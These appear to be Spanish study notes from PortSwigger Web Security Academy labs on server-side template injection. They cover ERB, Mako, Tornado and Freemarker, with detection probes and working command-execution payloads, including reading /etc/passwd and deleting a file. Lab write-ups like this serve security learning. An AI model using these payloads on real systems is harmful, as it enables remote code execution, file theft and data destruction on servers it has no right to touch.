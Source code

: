 
# Server-side template injection (SSTI)

Las paginas html antes eran estaticas pero con la aparicion de frameworks como ruby on rails y librerias como reactjs. Las paginas de internet
se hicieron mas dinamicas.

> HTML tags provide static web pages only but ERB tags give us dynamic information in that HTML template.

## Template Example

```
<h1> Event Details for <%= event.name %> </h1> 
```

Un ejemplo es fb para todos los perfires renderiza los amigos de cada cuenta y existen 2 el client side rendering y server side rendering.

> A menos que ya conozca el motor de plantillas de adentro hacia afuera, leer su documentación suele ser el primer lugar para comenzar.
> Aprender la sintaxis básica es obviamente importante, junto con las funciones clave y el manejo de variables. Incluso algo tan simple como aprender a incrustar bloques de código nativo en la plantilla a veces puede conducir rápidamente a un exploit. Por ejemplo, una vez que sepa que se está utilizando el motor de plantillas Mako basado en Python, lograr la ejecución remota de código podría ser tan simple como:

***Palabra clave***: motores de plantillas comunes

```
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
                
```

# Tipos de motores de plantillas (aunque hay muchos esto solo es un ejemplo)

## ERB 

ERB es un motor de plantillas. Un motor de plantillas le permite mezclar HTML y Ruby para que pueda generar páginas web utilizando datos de su base de datos. ERB es el motor predeterminado de Rails para renderizar vistas. Nota: Rails usa una implementación llamada erubi en lugar de la clase ERB de la biblioteca estándar de Ruby.

Sintaxis example

```
<%= @user.name%>
```


## JINJA

Jinja2 is a modern day templating language for Python developers. It was made after Django's template. It is used to create HTML, XML or other markup formats that are returned to the user via an HTTP request.

Sintaxis example

```
{{user.hit_that_like}}

```

# SSTI metodologia

1. Busca reflexion de parametros ingresados por el usuario
2. enumera de que template engine se trata haciendo que el payload sea evaluado
3. explitalo rce o solo sacar informacion.

> https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

### Detect - Plaintext context( dentro de hacktricks) 

```

{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}

```

# Basic server-side template injection

Para este laboratorio primero nos damos cuenta que al probar un producto nos manda en una peticion GET que no hay stock
despues si en esa misma peticion ponemos algo cualquier cosa lo renderiza!


```
GET /?message=<%25%3d+system("rm+morale.txt")+%25> HTTP/1.1
Host: 0a9a000604434cc5c04469150063005a.web-security-academy.net
Cookie: session=9w4H3Kb9L9iMwIiijw2slP6Pt6LKHJQ0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a9a000604434cc5c04469150063005a.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close



```

Se manda la peticion al intruder y se selecciona donde estara el payload despues no dirijomos a la pestaña
Payloads -> Payloads Options y ahi pegamos las " Plaintext context" para probar a que tipo de template engine
nos enfrentamos. Tambien nos dirigimos a Options-> Reg Extract -> add y seleccionamos el div donde se refleja 
nuestro output en nuesta respuesta de la pericion GET. Inciamos el ataque y vemos que la sintaxis de ERB de ruby es
la que renderiza el 49 (7*7).

Finalmente podemos ejecutar comandos con:

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

```

Borrando el archivo ( recuerda usar URL encode)


# Basic server-side template injection (code context)

Par  este  laboratorio se tiene que pensar de la siguiente mannera. Primero se va a la funcionalidad de "Preferred name"
dentro de esta se manda una parte "user.name"  que va variando segun el selelct.

1. Primero reconocemos que ahi puede haber un ssti.
2. Intentamos hacer fallar a la aplicacion para que nos de informacion user.noexist

```
"/usr/local/lib/python2.7/dist-packages/tornado/template.py"
```
3. Indentificamos que el template engine es tornado entonces vamos a trabajar con esa sintaxis.

4. Usamos la sintaxis de tornado

Cerramos el string con }} despues importamos un os y un system y el comando en la funcionalidad.


```
blog-post-author-display=user.first_name}}{% import os %}{{os.system('pwd')}}&csrf=3zrIydtzhGhCcccm3tjhQhR22U7nxYqs

```

Por ultimo mandar la solicitud desde la pagina de la funcionalidad y recargar la otra finalmente borrar el archivo y asi se resuelve.


# Server-side template injection using documentation

Este laboratorio es similar a el anterior

1. Primero iniciamos sesion e identificamos donde podria haber un ssti. En este caso identificacamos que en "Edit Template" 
Quiza podriamos inyectar algo 
2. Hacemos falla el template engine poniendo algo que no existe y ver a que nos efrentamos
3. freemarker es el template engine que al parecer nos enfrentamos
4. Inyectamos codigo y nos damod cuenta que si lo interpreta por lo tanto inyectamos comandos.

en save template usamos lo cual si ejecuta comandos y borramos el archivo 

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

```






















